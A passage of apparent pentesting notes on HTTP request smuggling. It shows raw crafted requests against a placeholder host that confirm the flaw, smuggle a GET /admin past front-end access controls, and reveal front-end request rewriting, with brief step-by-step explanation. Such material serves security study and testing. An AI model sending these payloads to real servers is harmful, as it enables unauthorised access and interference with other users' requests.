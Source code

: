     7c
    GET /404 HTTP/1.1
    Host: vulnerable-website.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 144

    x=
    0


    ```

If the attack is successful, the server will respond with status code 404 when sending a next normal request, indicating that the attack request did indeed interfere with it

## **Exploiting HTTP request smuggling vulnerabilities**

### **Bypass front-end security controls**

If the front-end server is implement access control restrictions and the back-end server is not doing further checking, then it may be possible to bypass the access control restrictions by smuggling a request to the back-end server

```
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```

### **Revealing front-end request rewriting**

In many applications, the front-end server performs some rewriting of requests before they are forwarded to the back-end server, typically by adding some additional request headers

There is often a simple way to reveal exactly how the front-end server is rewriting requests. To do this, you need to perform the following steps:

- Find a POST request that reflects the value of a request parameter into the application's response.
- Shuffle the parameters so that the reflected parameter appears last in the message body.
- Smuggle this request to the back-end server, followed directly by a normal request whose rewritten form you want to reveal.


```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=
```
